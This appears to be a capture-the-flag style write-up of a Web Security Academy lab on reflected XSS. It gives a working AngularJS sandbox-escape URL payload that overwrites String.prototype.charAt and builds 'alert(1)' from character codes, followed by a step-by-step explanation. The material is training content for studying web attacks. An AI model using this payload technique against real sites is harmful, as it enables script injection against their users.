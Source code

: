 # Lab 12: Reflected XSS with AngularJS sandbox escape without strings

This lab uses **AngularJS** in an unusual way where the `$eval` function is **not available**, and you **cannot use any strings** in AngularJS expressions.

---

## ❗ Lab Challenge

Perform a cross-site scripting attack that **escapes the AngularJS sandbox** and executes the `alert()` function **without using the `$eval` function** or any strings.

---

## 🔧 Solution

Visit the following URL, replacing `YOUR-LAB-ID` with your actual lab ID:

```html
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

```

---

## 💡 Explanation

- The exploit uses `toString()` to **create strings without quotes**.
- It accesses the **String prototype** and **overwrites the `charAt` function** for every string.
- This effectively **breaks the AngularJS sandbox**.
- An array `[1]` is passed to the `orderBy` filter.
- The argument to the filter is created by:
    - Using `toString()` and the String constructor property.
    - Using the `fromCharCode` method to generate the string payload: `x=alert(1)`.
- Because `charAt` is overwritten, AngularJS **allows this code execution**, where normally it would not.

---

## ▶️ Community Video Solution

> Watch the detailed walkthrough here:
[https://youtu.be/pln9RRbB5CI](https://youtu.be/pln9RRbB5CI)
>